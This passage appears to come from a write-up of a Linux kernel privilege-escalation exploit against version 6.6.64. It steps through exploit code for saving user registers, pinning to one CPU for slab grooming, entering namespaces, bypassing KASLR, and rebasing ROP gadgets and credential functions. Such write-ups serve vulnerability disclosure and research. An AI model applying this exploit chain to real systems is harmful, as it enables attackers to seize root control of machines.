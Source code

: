 ```c
void save_state(void)
{
	__asm__(
		".intel_syntax noprefix;"
		"mov user_cs, cs;"
		"mov user_ss, ss;"
		"mov user_rsp, rsp;"
		"pushf;"
		"pop user_rflags;"
		".att_syntax;"
	);
}
```

- Pinning the current task into CPU core 0 with `sched_setaffinity` syscall. This is to maintain the exploit context in the same core to utilize percpu slab cache and freelist.
[[exploit.c#L1770]](../exploit/lts-6.6.64/exploit.c#L1770)
```c
pin_on_cpu(0);
```

- Create and enter user/network namespace.
[[exploit.c#L1771]](../exploit/lts-6.6.64/exploit.c#L1771)
```c
setup_namespace();
```

- Use KASLR bypass primitive to get kernel base
[[exploit.c#L1772]](../exploit/lts-6.6.64/exploit.c#L1772)
```c
u64 kernel_base = find_kernel_base();
```

- Update kernel address
[[exploit.c#L1773]](../exploit/lts-6.6.64/exploit.c#L1773)
```c
update_kernel_address(kernel_base);
```

```c
void update_kernel_address(u64 kernel_base)
{
	init_task += kernel_base;
	init_fs += kernel_base;
	push_rdi_pop_rsp_ret += kernel_base;
	mov_qword_ptr_rax_rsi_ret += kernel_base;
	mov_rdi_rax_rep_ret += kernel_base;
	pop_rdi_ret += kernel_base;
	pop_rcx_ret += kernel_base;
	pop_rsi_ret += kernel_base;
	add_rax_rcx_ret += kernel_base;
	add_rsp_0x8_ret += kernel_base;
	prepare_kernel_cred += kernel_base;
	commit_creds += kernel_base;
	find_task_by_vpid += kernel_base;
	swapgs_restore_regs_and_return_to_usermode_nopop += kernel_base;
}
```
